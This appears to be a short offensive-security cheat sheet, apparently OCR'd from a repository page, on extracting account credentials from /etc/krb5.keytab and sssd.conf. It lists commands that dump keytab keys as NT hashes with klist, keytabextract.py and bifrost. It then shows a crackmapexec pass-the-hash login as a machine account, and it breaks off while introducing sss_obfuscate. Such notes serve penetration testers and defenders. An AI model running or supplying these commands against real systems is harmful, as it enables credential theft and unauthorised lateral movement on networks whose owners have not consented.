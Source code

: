 # Extract Accounts locations

## From /etc/krb5.keytab

### The service keys used by services that run as root are usually stored in the keytab file /etc/krb5.keytab. This service key is the equivalent of the service's password, and must be kept secure.

### Use klist to read the keytab file and parse its content. The key that you see when the key type is 23 is the actual NT Hash of the user.

 - klist.exe -t -K -e -k FILE:C:\Users\User\downloads\krb5.keytab (Windows)

### On Linux you can use KeyTabExtract : we want RC4 HMAC hash to reuse the NTLM hash.

 - python3 keytabextract.py krb5.keytab

### On macOS you can use bifrost

 - ./bifrost -action dump -source keytab -path test

### Connect to the machine using the account and the hash with CME

 - crackmapexec 10.XXX.XXX.XXX -u 'COMPUTER$' -H "31d6cfe0d16ae931b73c59d7e0c089c0"

## From /etc/sssd/sssd.conf

### sss_obfuscate converts a given password into human-unreadable format and places it into appropriate domain section of the SSSD config file, usually located at /etc/sssd/sssd.conf

